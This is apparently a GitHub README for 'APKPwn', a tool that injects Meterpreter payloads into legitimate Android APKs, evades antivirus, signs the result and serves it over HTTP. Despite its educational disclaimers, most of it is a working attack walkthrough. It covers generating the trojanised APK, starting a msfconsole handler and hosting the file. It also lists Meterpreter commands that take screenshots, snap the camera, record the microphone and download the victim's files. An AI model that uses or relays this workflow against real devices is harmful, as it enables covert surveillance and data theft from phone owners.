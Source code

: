 # APKPwn - Android AV Evasion & Payload Injection Tool

APKPwn is a cybersecurity awareness tool designed to generate infected APKs with **Meterpreter** payloads. This tool is intended for educational purposes to demonstrate the risks of poorly managed mobile applications, particularly installing untrusted software.

> **⚠️ IMPORTANT:**
> This project is for educational and awareness purposes only. Any malicious use of this tool is strictly prohibited. **Never use the generated APKs in a real environment or without explicit consent.** The tool is designed for secure testing environments only.

## Features
- Generate Android payloads using `msfvenom`.
- AV evasion for testing on Android apps.
- Integrated APK signing.
- Built-in HTTP server to host and serve malicious APKs.

## Requirements

- Linux system (tested on Ubuntu/Debian).
- Metasploit Framework installed.
- The following dependencies should be present:
  - `apktool`
  - `openjdk-11-jdk`
  - `apksigner`
  - `zipalign`
  
If the dependencies are not installed, the tool will attempt to install them automatically.

## Installation

1. Clone the repository to your machine:

    ```bash
    git clone https://github.com/your-username/APKPwn.git
    cd APKPwn
    ```

2. Install the dependencies:

    The tool will check for the required dependencies and prompt you to install them if necessary.

    ```bash
    python3 apkpwn.py
    ```

3. Run the tool:

    ```bash
    python3 apkpwn.py
    ```

    Follow the on-screen instructions to select the payload, set host and port options, and create the infected APK.

## Usage

### Step 1: Generate the infected APK

Once the tool is launched, you will need to provide the following information:
- **LHOST**: The IP address of your machine (automatically detected by the tool).
- **LPORT**: The port on which Metasploit will listen for connections.
- **Original APK**: Path to a legitimate APK you want to inject the payload into.
- **Output APK**: Name of the malicious APK that will be generated.

### Step 2: Start Metasploit and wait for a connection

The tool will generate a `meterpreter_handler.rc` file to help you start the Metasploit listener:

    msfconsole -r meterpreter_handler.rc

This will launch a handler that will wait for a connection from the infected APK.

### Step 3: Start the HTTP server

Once the malicious APK is generated, the tool will start an HTTP server on your machine to serve the APK:

    http://your-ip:8000/your_malicious_apk.apk

The goal is to raise awareness of the dangers of APKs downloaded from unofficial sources.

### Step 4: Open a Meterpreter session

When the user installs and runs the infected APK on their device, a Meterpreter session will open. You can then interact with the compromised device:

    meterpreter > sessions -i [Session ID]

## Awareness Scenario

Here’s a typical awareness scenario for an open Meterpreter session on an Android device.

### 1. **Take a screenshot:**

This demonstrates how an attacker can view the user’s screen:

    meterpreter > screenshot

### 2. **Retrieve device information:**

To show the amount of information accessible to the attacker:

    meterpreter > sysinfo

### 3. **Check if the device is rooted:**

Shows how the attacker can check if the device has root permissions:

    meterpreter > check_root

### 4. **Activate the camera and take a picture:**

A powerful example of how privacy can be compromised:

    meterpreter > webcam_snap

### 5. **Activate the microphone and record audio:**

Demonstrates how the attacker can record the user’s environment:

    meterpreter > record_mic

### 6. **Extract files from the device:**

Shows that all the user's data can be exfiltrated:

    meterpreter > ls /sdcard/
    meterpreter > download /sdcard/DCIM/photo.jpg

## Disclaimer

**APKPwn is strictly for educational and awareness purposes.** Use this tool only in controlled environments with the authorization of all involved parties. Malicious use may result in severe legal consequences.

## Contributions

Contributions are welcome! If you would like to improve the tool, feel free to submit a Pull Request.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.
